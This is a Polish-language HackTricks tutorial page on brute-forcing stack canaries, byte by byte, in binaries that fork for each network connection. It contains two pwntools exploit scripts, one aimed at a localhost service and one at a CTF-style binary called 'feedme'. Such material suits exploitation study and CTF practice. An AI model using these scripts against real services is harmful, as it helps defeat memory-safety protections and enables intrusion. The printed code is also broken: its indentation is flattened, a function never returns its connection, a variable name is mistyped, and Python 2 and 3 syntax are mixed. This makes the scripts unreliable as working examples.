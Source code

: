 # BF Forked Stack Canaries

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Kup [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

**Jeśli masz do czynienia z binarnym plikiem zabezpieczonym przez canary i PIE (Position Independent Executable), prawdopodobnie będziesz musiał znaleźć sposób na ich obejście.**

![](<../../../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
Zauważ, że **`checksec`** może nie wykryć, że binarny plik jest chroniony przez canary, jeśli został on skompilowany statycznie i nie jest w stanie zidentyfikować funkcji.\
Możesz jednak zauważyć to ręcznie, jeśli zauważysz, że wartość jest zapisywana na stosie na początku wywołania funkcji, a ta wartość jest sprawdzana przed wyjściem.
{% endhint %}

## Bruteforce Canary

Najlepszym sposobem na obejście prostego canary jest, gdy binarny program **tworzy procesy potomne za każdym razem, gdy nawiązujesz z nim nowe połączenie** (usługa sieciowa), ponieważ za każdym razem, gdy się z nim łączysz, **używany będzie ten sam canary**.

Najlepszym sposobem na obejście canary jest po prostu **próba siłowa znak po znaku**, a możesz sprawdzić, czy zgadnięty bajt canary był poprawny, sprawdzając, czy program się zawiesił, czy kontynuuje swoje regularne działanie. W tym przykładzie funkcja **próbuje siłowo 8-bajtowy canary (x64)** i rozróżnia między poprawnie zgadniętym bajtem a złym bajtem, po prostu **sprawdzając**, czy **serwer wysyła odpowiedź** (innym sposobem w **innych sytuacjach** mogłoby być użycie **try/except**):

### Przykład 1

Ten przykład jest zaimplementowany dla 64-bitów, ale można go łatwo zaimplementować dla 32-bitów.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
### Przykład 2

To jest zaimplementowane dla 32 bitów, ale można to łatwo zmienić na 64 bity.\
Zauważ również, że w tym przykładzie **program oczekuje najpierw bajtu wskazującego rozmiar danych wejściowych** oraz samego ładunku.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```

